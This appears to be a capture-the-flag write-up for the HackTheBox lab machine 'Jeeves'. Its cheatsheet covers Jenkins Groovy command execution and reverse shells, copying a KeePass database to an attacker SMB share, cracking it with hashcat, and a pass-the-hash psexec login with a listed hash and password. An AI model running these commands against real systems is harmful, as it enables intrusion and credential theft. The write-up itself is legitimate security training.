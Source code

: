 # Jeeves \[Medium]

## Report

An HTTP site at port 5000 hosts a Jenkins user panel wehre we are able to execute groovy script in the Scripts section or by creating a new project and running a Windows script.

Getting a reverse shell as kohsuke, user has 'SeImpersonate' privelege enabled so using JuicyPotato would get us root which is the unintended path.

FInd a keepass database in the Documents folder, crack it using john and hashcat and retrieve a hash that can be passed for psexec to become admin. The root file is in an ADS so use `/R` to list it out

## Cheatsheet

```
String result = "whoami".execute().text 
println result
#Groovy revshell to execute cmd.exe

sudo python3 /opt/impacket/examples/smbserver.py hi pwd -smb2support 
net view \10.10.14.3\
#Next command didnt do much tho
powershell -c "New-PSDrive -Name 'hello' -PSProvider 'FileSystem' -Root '\10.10.14.3\hi'" [Did this do anything tho]

copy .\CEH.kdbx \10.10.14.3\hi 
PowerShell: Copy-Item C:\Users\bob\Desktop<LOOT> \<share>\<LOOT>

keepass2john CEH.kdbx
hashcat64.exe -m 13400 hash.txt rockyou.txt -d 1
kpcli -kdb CEH.kdbx ls --group CEH --entries 
show -f [entry_number]
sudo python3 psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00 administrator@10.10.10.63 cmd.exe 
dir /R 
more < hm.txt:root.txt
```

## Loot

### Creds

CEH:moonshine1 \[keepass master password]

### Enumeration

**SMB** \
Nonauth session denied

**80** \
error.html is just ss but some good info \
MSSQL 2005; .NET version 2.05 \
This thing doesn't even forward our data it just redirects to error.html fuzzed this also didnt get much, file extensions maybe?

**50000 \[HTTP]**\
Powered by Jetty:// 9.4.z-SNAPSHOT \
CVE 2021-28164 : Information disclouse by URL encoding . -> %2e \
We cant find any files by fuzzing tho, a specific wordlist also didnt help \
HOW TF COULD YOU NOT LET FFUF FINISH YOU TOOL \
/askjeeves (302) \
http://10.10.10.63:50000/askjeeves \
Jenkins 2.87 running

/script allows us to execute groovy scripts

groovy revshell execute cmd.exe, powershell seems to not work

IEX nishang tcp shell otherwise (more professional i feel)

#### Kohsuke

User kohsuke SeImpersonate autologon creds for user ben unattend - creds for user ben C:\Windows\Panther\Unattend.xml

Find keepas db in Documents
